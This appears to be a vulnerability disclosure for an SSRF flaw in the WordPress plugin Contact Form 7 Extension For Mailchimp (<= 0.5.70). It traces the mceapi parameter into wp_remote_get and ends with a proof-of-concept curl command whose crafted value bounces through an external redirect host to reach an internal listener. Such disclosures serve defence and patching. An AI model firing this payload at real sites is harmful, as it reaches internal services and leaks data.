 ### Contact Form 7 Extension For Mailchimp

- **Application**: Contact Form 7 Extension For Mailchimp <= 0.5.70

- **Threat Impact**: Sensitive data leakage

- **Code**:  The API is passed in through `mceapi` POST parameter. The second part after split is used as the host of the URL, which is passed into `callApiGet` and finally used by sink `wp_remote_get`

  File: `lib/find.php`

  ```
  function wpcf7_mce_loadlistas(){
    mceapi = isset($_POST['mceapi']) ? $_POST['mceapi'] : 0;
    ...
    $cf7_mch = $tmppost + array('api' => $mceapi);
    ...
    $api = $cf7_mch['api'];
    $dc = explode("-", $api);
    $urlmcv3 = "https://$dc[1].api.mailchimp.com/3.0";
    ...
    $url_get_merge_fields = "$urlmcv3/lists/$list/merge-fields";  //// $urlmcv3
    $arraymerger_ = callApiGet($dc[0], $url_get_merge_fields);
  }
  
  function callApiGet($token, $url) {
    ...
    $mergerfield = wp_remote_get($url, $header);
  }
  ```
  
- **POC**:
  1. Listen on 8888 on server side
  1. Login to get cookie
  1. Send a post request through curl: `curl -X POST http://127.0.0.1:28000/wp-admin/admin-ajax.php\?action\=wpcf7_mce_loadlistas -d "mceapi=-ssrf.localdomain.pw%2Fcustom%252D30x%2F%3Fcode%3D301%26url%3Dhttp%3A%2F%2F127.0.0.1%3A8888%26a%3D" --cookie "wordpress_cookie"`
  1. Receive a request on server side. 
